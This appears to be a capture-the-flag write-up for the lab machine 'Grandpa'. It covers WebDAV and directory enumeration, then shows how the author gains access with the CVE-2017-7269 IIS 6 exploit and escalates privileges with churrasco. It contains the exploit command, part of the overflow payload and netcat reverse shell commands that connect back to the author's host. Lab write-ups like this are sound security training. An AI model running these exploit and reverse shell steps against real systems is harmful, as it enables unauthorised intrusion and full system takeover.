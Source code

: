 As we saw with Nmap it is a web server, if we access to it we can pick some info from the headers

![[Pasted image 20230801081646.png]]

We will use davtest app to check available methods and files format to upload to the server

```bash
┌──(kali㉿kali)-[~/Documents/Boxes/Grandpa-10.10.10.14/nmap]
└─$ davtest -url http://10.10.10.14/ -cleanup
********************************************************
 Testing DAV connection
OPEN            SUCCEED:                http://10.10.10.14
********************************************************
NOTE    Random string for this session: f8ludAJ
********************************************************
 Creating directory
MKCOL           FAIL
********************************************************
 Sending test files
PUT     cgi     FAIL
PUT     cfm     FAIL
PUT     jhtml   FAIL
PUT     pl      FAIL
PUT     html    FAIL
PUT     asp     FAIL
PUT     txt     FAIL
PUT     php     FAIL
PUT     shtml   FAIL
PUT     jsp     FAIL
PUT     aspx    FAIL
********************************************************
 Cleaning up

********************************************************
/usr/bin/davtest Summary:
```

Nothing that we could upload, lets try enumerate directories

```bash
┌──(kali㉿kali)-[~/Documents/Boxes/Grandpa-10.10.10.14/nmap]
└─$ gobuster dir -u http://10.10.10.14:80/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.14:80/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/08/01 08:18:49 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 152] [--> http://10.10.10.14:80/images/]
/Images               (Status: 301) [Size: 152] [--> http://10.10.10.14:80/Images/]
/IMAGES               (Status: 301) [Size: 152] [--> http://10.10.10.14:80/IMAGES/]
/_private             (Status: 403) [Size: 1529]
Progress: 87650 / 87665 (99.98%)
===============================================================
2023/08/01 08:26:44 Finished
===============================================================
```

Nothing interesting here. After googling some info we found the vulnerability CVE-2017-7269 and **[this github exploit](https://raw.githubusercontent.com/g0rx/iis6-exploit-2017-CVE-2017-7269/master/iis6%20reverse%20shell)** so lets try it

```bash
┌──(venv)─(kali㉿kali)-[~/Documents/Boxes/Grandpa-10.10.10.14]
└─$ python CVE-2017-7269-BOF_exploit.py 10.10.10.14 80 10.10.14.14 1234
PROPFIND / HTTP/1.1
Host: localhost
Content-Length: 1744
If: <http://localhost/aaaaaaa潨硣睡YAB30APB944JBRDDKLMN8KPM0KP4KOYM4CQJINDKSKPKPTKKQTKT0D8TKQ8RTJKKX1OTKIGJSW4R0KOIBJHKCKOKOKOF0V04PF0M0A>

-----------------

┌──(kali㉿kali)-[~/Documents/Boxes/Grandpa-10.10.10.14/nmap]
└─$ nc -nvlp 1234                                                                                                   
listening on [any] 1234 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.14] 1030
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami
nt authority\network service
```

And we are in, lets escalate privileges. As we are dealing with **Windows 2003** we can use churrasco exploit for Token kidnapping, so upload nc.exe and **[churrasco.exe](https://github.com/Re4son/Churrasco/raw/master/churrasco.exe)** and get a reverse shell with elevated privileges

```bash
┌──(venv)─(kali㉿kali)-[~/Documents/Boxes/Grandpa-10.10.10.14]
└─$ wget https://github.com/Re4son/Churrasco/raw/master/churrasco.exe

┌──(venv)─(kali㉿kali)-[~/Documents/Boxes/Grandpa-10.10.10.14]
└─$ locate nc.exe
/home/kali/Documents/StartingPoint/nc.exe
/usr/share/seclists/Web-Shells/FuzzDB/nc.exe
/usr/share/windows-resources/binaries/nc.exe

┌──(venv)─(kali㉿kali)-[~/Documents/Boxes/Grandpa-10.10.10.14]
└─$ cp /usr/share/windows-resources/binaries/nc.exe .

┌──(venv)─(kali㉿kali)-[~/Documents/Boxes/Grandpa-10.10.10.14]
└─$ sudo impacket-smbserver share -smb2support .     
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

-------------------------

c:\windows\system32\inetsrv>cd c:\Windows\Temp
cd c:\Windows\Temp

C:\WINDOWS\Temp>copy \\10.10.14.14\share\churrasco.exe churrasco.exe
copy \\10.10.14.14\share\churrasco.exe churrasco.exe
        1 file(s) copied.

C:\WINDOWS\Temp>copy \\10.10.14.14\share\nc.exe nc.exe
copy \\10.10.14.14\share\nc.exe nc.exe
        1 file(s) copied.
```

Now with a netcat listener we try to get a reverse shell

```bash
C:\WINDOWS\Temp>churrasco.exe -d "nc.exe -e cmd.exe 10.10.14.14 1234"

---------------------------

┌──(venv)─(kali㉿kali)-[~/Documents/Boxes/Grandpa-10.10.10.14]
└─$ nc -nvlp 1234                                    
listening on [any] 1234 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.14] 1035
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\TEMP>whoami
nt authority\system
```

And we are nt authority\system!

